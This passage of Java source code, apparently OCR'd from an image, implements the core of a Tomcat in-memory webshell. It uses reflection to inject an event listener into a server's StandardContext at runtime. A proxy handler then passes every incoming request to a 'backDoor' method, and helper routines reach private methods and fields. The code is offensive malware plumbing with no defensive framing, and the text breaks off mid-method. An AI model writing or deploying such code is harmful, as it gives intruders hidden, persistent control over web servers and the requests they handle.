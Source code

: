 ```plain
    private String addListener(Object listener,Object standardContext)throws Exception{
        Method addApplicationEventListenerMethod = standardContext.getClass().getDeclaredMethod("addApplicationEventListener",Object.class);
        addApplicationEventListenerMethod.setAccessible(true);
        addApplicationEventListenerMethod.invoke(standardContext,listener);
        return "ok";
    }


    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
        if (method.getName().equals("requestInitialized")){
            Object servletRequestEvent = args[0];
            backDoor(servletRequestEvent);
        }
        return null;
    }

    private Object invokeMethod(Object obj,String methodName,Object... parameters){
        try {
            ArrayList classes = new ArrayList();
            if (parameters!=null){
                for (int i=0;i<parameters.length;i++){
                    Object o1=parameters[i];
                    if (o1!=null){
                        classes.add(o1.getClass());
                    }else{
                        classes.add(null);
                    }
                }
            }
            Method method=getMethodByClass(obj.getClass(), methodName, (Class[])classes.toArray(new Class[]{}));

            return method.invoke(obj, parameters);
        }catch (Exception e){
//          e.printStackTrace();
        }
        return null;
    }
    private Method getMethodByClass(Class cs,String methodName,Class... parameters){
        Method method=null;
        while (cs!=null){
            try {
                method=cs.getMethod(methodName, parameters);
                cs=null;
            }catch (Exception e){
                cs=cs.getSuperclass();
            }
        }
        return method;
    }
    public static Object getFieldValue(Object obj, String fieldName) throws Exception {
        Field f=null;
        if (obj instanceof Field){
            f=(Field)obj;
        }else {
            Method method=null;
            Class cs=obj.getClass();
            while (cs!=null){
                try {
                    f=cs.getDeclaredField(fieldName);
                    cs=null;
                }catch (Exception e){
```